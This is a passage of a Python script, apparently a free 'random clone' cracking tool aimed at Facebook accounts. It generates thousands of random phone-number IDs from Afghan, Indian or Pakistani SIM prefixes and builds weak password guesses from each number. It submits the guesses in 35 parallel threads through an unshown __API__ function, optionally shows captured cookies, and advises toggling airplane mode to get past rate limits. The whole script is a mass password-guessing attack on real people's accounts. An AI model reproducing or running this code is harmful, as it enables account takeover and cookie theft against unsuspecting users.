 {rad}[{white}◆{rad}] {green}DEVELOPER  {white}▶︎ {green}Samandar KHAN
{rad}[{white}◆{rad}] {green}FACEBOOK   {white}▶︎ {green}Samandar KHAN
{rad}[{white}◆{rad}] {green}TOOLTYPE   {white}▶︎ {green}FREE{white}{rad}┼{faltu}{rad}FILE & RANDOM{pvt}{green}{rad}┼
{rad}[{white}◆{rad}] {green}GITHUB     {white}▶︎ {rad}({white}Samandar-02{rad})
{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
{rad}[{white}◆{rad}] {green}KEY{white} ▶︎ {yellow}FUCKED BY - R,H
{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━""")

def fuckxd():
    os.system('clear')
    ____banner____()
#━━━━[ LINE ]━━━━#
def linex():
        print(f"{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━")
#━━━━[ MAIN ]━━━━#
def Samandar():
    ____banner____()
    print(f'{rad}[{white}1{rad}] {green}Crack Start Random Clone');linex()
    __Samandar__ = input(f'{rad}[{white}◆{rad}] {green}Selection  {white}▶︎ {yelloww}')
    if __Samandar__ in ['A','a','01','1']:SETINGX()
    else:print(f'\n[×]{rad} Choose Value Option... ');Samandar()

#━━━━[ SELECT MENU ]━━━━#
def SETINGX():
    ____banner____()
    print(f"{cyan}▁▂▄▅▆{green}[{white}A{green}] {white}> {yellow}AFG {green}[{white}B{green}] >{cyan} INDIA {green}[{white}C{green}] > {purple}PAK{cyan}▆▅▄▂▁");linex()
    __Samandari__ = input(f'{rad}[{white}◆{rad}]{green} SELECTION  {white}▶︎ {yelloww}')
    if __Samandari__ in ['A','a','01','1']:RANDOM()
    elif __Samandari__ in ['B','b','02','2']:INDIA()
    elif __Samandari__ in ['C','c','03','3']:PAKISTAN()
    else:print(f'\n[×]{rad} Choose Value Option... ');SETINGX()

#━━━━[ AFG RANDOM ]━━━━#
def RANDOM():
    user=[]
    ck=[]
    ____banner____()
    code = input(f"{rad}[{white}◆{rad}] {green}SIM CODES {white} ▶︎ {rad}[{white}070 078 079 077{rad}]\n{rad}[{white}◆{rad}]{green} SELECTION  {white}▶︎ {yelloww}")
    limit = int(input(f"{rad}[{white}◆{rad}] {green}EXAMPLE {white}   ▶︎ {rad}[{white}10000 20000 30000{rad}]\n{rad}[{white}◆{rad}] {green}LIMITS     {white}▶︎ {yelloww}"))
    xmk = input(f"{rad}[{white}◆{rad}] {green}WANT TO SEE COOKIE {rad}[{green}Y{white}/{green}N{rad}] {white}▶︎ {yelloww}")
    for _ in range(limit):
        user.append("".join(random.choices(string.digits, k=8)))
    if xmk == "Y" or xmk == "y":
        ck.append("Y")
    elif xmk == "N" or xmk == "n":
        ck.append('N') 
    else:
        ck.append('N')
    with tred(max_workers=35) as SamandarSefat:
        ____banner____();tl = str(len(user))
        print(f'{rad}[{white}◆{rad}] {green}SIM CODE{rad}┼{white}{code}{rad}┼{green}TOTAL IDS{rad}┼{white}{tl}')
        print(f'{rad}[{white}◆{rad}] {green}IF NO RESULT [{white}On{orange}/{white}Off{green}] AIRPLANE MODE')
        linex()
        for love in user:
            ids = code+love
            passlist = [ids,love,ids[:8],ids[:7],code+code,love[1:],ids[:6],love[2:]]
            SamandarSefat.submit(__API__,ids,passlist,tl,ck)